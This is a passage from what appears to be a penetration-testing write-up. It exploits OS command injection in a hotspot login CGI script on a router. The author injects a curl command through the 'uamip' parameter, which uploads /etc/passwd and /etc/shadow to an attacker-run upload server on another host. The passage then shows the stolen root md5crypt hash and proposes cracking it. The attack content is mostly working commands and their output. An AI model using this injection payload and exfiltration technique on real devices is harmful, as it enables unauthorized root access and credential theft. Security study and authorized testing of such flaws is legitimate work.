 ```bash
{ [5 bytes data]
100  2760    0  2673  100    87    736     23  0:00:03  0:00:03 --:--:--   759
* Closing connection 0
                                                                                                 
```

Let's see our server

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.1 - - [24/Jul/2022 17:45:48] Upload of "passwd" accepted
192.168.1.1 - - [24/Jul/2022 17:45:48] "POST /upload HTTP/1.1" 204 -
192.168.1.1 - - [24/Jul/2022 17:45:50] Upload of "passwd" accepted
192.168.1.1 - - [24/Jul/2022 17:45:50] "POST /upload HTTP/1.1" 204 -

```

We were able to get the passwd file, let's check it

```bash
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false

```

As we can see the os command injection worked and we were able to get the passwd file using curl 

Now let's try with a reverse shell. I tired multiples reverse shell with bash and sh but without succes. We need to find another solution

## Shadow file

As the exploit run commandes using root privileges, let's read the /etc/shadow file

```bash
curl -v -o /dev/null "http://192.168.1.1/cgi-bin/hotspotlogin.cgi" -d 'send=1&uamip="; curl -X POST http://192.168.1.110:8000/upload -F "files=@/etc/shadow" #'
```

```
root:$1$o1tYRea4$blIAJ7l1GqkT8NTwcC41n1:15225:0:99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::

```

We got the root hash. It's md5crypt hash let's crack it using hashcat or john
